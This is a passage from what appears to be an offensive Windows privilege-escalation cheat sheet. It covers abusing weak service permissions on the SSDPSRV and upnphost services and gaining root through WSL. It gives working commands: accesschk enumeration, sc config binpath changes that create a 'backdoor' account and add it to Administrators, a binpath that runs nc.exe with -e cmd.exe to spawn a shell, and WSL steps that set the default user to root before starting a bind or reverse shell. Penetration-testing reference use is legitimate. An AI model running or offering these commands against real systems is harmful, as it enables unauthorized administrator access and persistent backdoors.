 #### If it fails because of a missing dependency, try the following commands.

    sc config SSDPSRV start=auto
    net start SSDPSRV
    net stop upnphost
    net start upnphost

    sc config upnphost depend=""

    Using accesschk from Sysinternals or accesschk-XP.exe - github.com/phackt

    $ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
    RW SSDPSRV
            SERVICE_ALL_ACCESS
    RW upnphost
            SERVICE_ALL_ACCESS

    $ accesschk.exe -ucqv upnphost
    upnphost
      RW NT AUTHORITY\SYSTEM
            SERVICE_ALL_ACCESS
      RW BUILTIN\Administrators
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\Authenticated Users
            SERVICE_ALL_ACCESS
      RW BUILTIN\Power Users
            SERVICE_ALL_ACCESS

    $ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
    $ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    $ sc stop <vuln-service>
    $ sc start <vuln-service>
    $ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
    $ sc stop <vuln-service>
    $ sc start <vuln-service>

#### Windows Subsystem for Linux (WSL)

#### Technique borrowed from Warlockobama’s tweet

    With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don’t know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

    wsl whoami
    ./ubuntun1604.exe config --default-user root
    wsl whoami
    wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

#### Binary bash.exe can also be found in C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe

##### Alternatively you can explore the WSL filesystem in the folder C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\
#### Unquoted Service Paths
